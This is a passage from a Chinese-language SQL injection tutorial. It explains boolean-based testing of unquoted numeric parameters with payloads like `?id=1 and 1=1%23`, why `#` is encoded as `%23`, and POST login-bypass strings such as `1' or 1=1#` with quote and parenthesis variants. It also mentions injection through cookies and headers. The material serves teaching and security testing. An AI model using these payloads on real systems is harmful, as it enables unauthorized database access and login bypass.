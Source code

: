

有些后端数据未使用特殊符号进行包裹就直接带进sql语句了。

所以测试`'`单引号,`"`双引号,`()`小括号都会报错。

此处只需要测试`1 and 1=1%23`和`1 and 1=2%23`。如果两次页面返回的不一样，则表示我们的语句生效了。于是乎，就能进行sql注入。



实例：

```
select * from users where id=前端数据 limit 0,1;
```



测试实例：

```
?id=1 and 1=1%23					
?id=1 and 1=2%23
?id=1=0
```







#### 6.	%23

%23转码后为`#`。浏览器自带有一些过滤规则，url定位符中的`#`，可能会被过滤掉。所以一般都是使用`%23`

#### .	POST类型



以上1~5都是针对get类型，而对于POST类型的话，差别也不大。如下



>不过需要注意的是因为post类型不需要url转码，所以`#`无需写为`%23`。宽字节绕过`�`也无需写为`%bf`



实例：

```
usersname:1' or 1=1#						单引号

usersname:1" or 1=1#						双引号

usersname:1') or 1=1#						单引号＋小括号

usersname:1") or 1=1#						双引号+小括号
```





#### 其他注入类型

> 如cookie注入，referer注入，User-Agent注入都是和get类型注入同样的道理，只是也不需要进行`url`转码
